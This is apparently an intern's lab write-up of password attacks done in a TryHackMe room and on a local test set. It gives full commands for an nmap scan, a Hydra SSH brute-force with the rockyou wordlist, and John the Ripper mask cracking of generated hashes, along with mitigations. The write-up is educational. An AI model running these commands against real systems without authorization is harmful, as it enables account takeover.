 # Password Attacks — Lab Exercises

**Date:** 2025-10-18
**Author:** Aman Jiwani (intern)
**Scope:** Two lab exercises demonstrating common password attack techniques in a controlled environment:

* **1) Brute-force SSH login using Hydra** (TryHackMe `SS_HYFM` room)
* **2) Cracking hashed passwords with John the Ripper** (local test set)

---

## 1) Brute-force SSH login using Hydra

**Objective:** Demonstrate a dictionary/brute-force attack against an SSH service using `hydra`.

**Lab reference:** TryHackMe room used during this exercise: `SS_HYFM` (lab environment).

### Steps performed

1. **Service discovery & version detection** with `nmap`:

```bash
nmap -sV -p22 [ip_address]
```

*Interpretation:* Confirmed SSH is running on the target (port 22) and is reachable.

2. **Run Hydra to brute-force SSH login** using a known username and wordlist (rockyou):

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://[ip_address]
```

* `-l admin` sets the username to `admin`.
* `-P` points to the password list (rockyou.txt).
* `ssh://[ip_address]` targets the SSH service on the specified IP.

### Example output (abbreviated)

```
[22][ssh] host: 192.168.x.x   login: admin   password: 123456
1 of 1 target successfully completed, 1 valid password found
```

**Result:** Found a valid credential (`admin:123456`) — SSH login allowed.

### Notes & caveats

* Brute-force attacks are noisy: they generate many failed attempts and are likely to trigger IDS/IPS or account lockouts in production systems.
* Use only in authorized lab environments (like TryHackMe) or with explicit permission.

### Mitigations

* Enforce account lockout thresholds and exponential backoff for failed logins.
* Use multi-factor authentication (MFA) for SSH where possible (e.g., public key + passphrase, or OTP in addition to keys).
* Disable password-based SSH authentication; use key-based auth and strong passphrases.
* Monitor and alert on multiple failed SSH attempts and unusual source IPs.

---

## 2) Crack hashed passwords with John the Ripper

**Objective:** Create a small test dataset of easy-to-crack hashed passwords and crack them using John the Ripper with a mask attack.

### Steps performed (create test set)

Run these commands to generate a set of 10 test users with passwords composed of `3 lowercase letters + 2 digits` and store both the hashed `shadow`-style entries and the plaintexts for verification.

```bash
# create working directory
cd ~/john_lab
rm -f shadow_easy10.txt plain_passwords_easy10.txt

for i in $(seq -w 01 10); do
  user="easy${i}"
  pass="$(tr -dc 'a-z' </dev/urandom | head -c3)$(shuf -i10-99 -n1)"
  echo "$user:$(openssl passwd -6 "$pass"):18000:0:99999:7:::" >> shadow_easy10.txt
  echo "$user:$pass" >> plain_passwords_easy10.txt
done
```

This produces:

* `shadow_easy10.txt` — simulated `/etc/shadow`-style file with SHA-512 (`-6`) password hashes
* `plain_passwords_easy10.txt` — ground-truth plaintexts (for lab verification only)

### Crack using John with a mask suited to `lllDD` (3 letters + 2 digits)

```bash
# run John with a mask for 3 lowercase letters + 2 digits
sudo john --mask='?l?l?l?d?d' ~/john_lab/shadow_easy10.txt

# show cracked results
john --show ~/john_lab/shadow_easy10.txt

# verify plaintexts saved earlier
cat ~/john_lab/plain_passwords_easy10.txt
```

### Example output (abbreviated)

```
easy01:abc12
easy02:xyz99
...
```

**Result:** John the Ripper successfully cracked the weak mask-formatted passwords, demonstrating how easily short, low-entropy passwords can be recovered.

### Notes & caveats

* This exercise intentionally uses weak password patterns to illustrate the weakness of short predictable passwords.
* Do not run cracking tools against systems for which you do not have explicit authorization.

### Mitigations

* Enforce strong password policies (minimum length, complexity, banned password lists).
* Use passphrases or longer random passwords (recommended: at least 12+ high-entropy characters for user-chosen secrets).
* Store passwords using a modern, slow hashing algorithm with per-password salt (e.g., bcrypt, Argon2) and appropriate cost factors.
* Implement rate-limiting and multi-factor authentication to reduce the impact of recovered credentials.

---

## Artifacts & Commands (copy/paste)

```bash
# Discovery for SSH
nmap -sV -p22 [ip_address]

# Hydra brute-force
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://[ip_address]

# John the Ripper test dataset creation
cd ~/john_lab
rm -f shadow_easy10.txt plain_passwords_easy10.txt
for i in $(seq -w 01 10); do
  user="easy${i}"
  pass="$(tr -dc 'a-z' </dev/urandom | head -c3)$(shuf -i10-99 -n1)"
  echo "$user:$(openssl passwd -6 "$pass"):18000:0:99999:7:::" >> shadow_easy10.txt
  echo "$user:$pass" >> plain_passwords_easy10.txt
done

# John crack with mask
sudo john --mask='?l?l?l?d?d' ~/john_lab/shadow_easy10.txt
john --show ~/john_lab/shadow_easy10.txt
```

---

## Recommendations for report inclusion

* Include screenshots or terminal logs of the successful Hydra result and John `--show` output as evidence.
* Add exact timestamps and target IPs in a production report (omitted here for privacy/security of the lab environment).
* If this is for a lab submission (TryHackMe), include the room name and notes about scope and authorization.

---

*End of Password Attacks lab notes.*
